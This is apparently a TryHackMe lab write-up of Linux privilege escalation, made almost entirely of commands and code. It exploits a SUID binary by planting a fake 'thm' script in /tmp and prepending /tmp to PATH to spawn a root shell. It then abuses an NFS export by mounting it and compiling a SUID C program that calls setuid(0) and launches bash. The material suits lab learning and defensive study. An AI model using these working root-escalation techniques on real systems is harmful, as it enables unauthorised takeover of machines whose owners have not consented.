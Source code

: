 > `/home/murdoch`

```bash
cd /home/murdoch
ls -lah
```

> `-rwsr-xr-x 1 root root 16712 Jun 20  2021 test`

```bash
./test
```

> `sh: 1: thm: not found`

```bash
echo "/bin/bash" > /tmp/thm
chmod 777 /tmp/thm
export PATH=/tmp:$PATH
./test
find / -type f -name flag6.txt 2>/dev/null
```

> `/home/matt/flag6.txt`

```bash
cat /home/matt/flag6.txt
```

> `THM-736628929`

## Privilege Escalation: NFS

```bash
cat /etc/exports
showmount -e <TARGET-IP>
mkdir <LFOLDER>
mount -o rw <TARGET-IP>:/<RFOLDER> <LFOLDER>
```

```c
/* nfs.c */
#include <stdio.h>
#include <stdlib.h>

int main()
{ 
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

```bash
gcc nfs.c -o nfs -w
chmod +s nfs
```
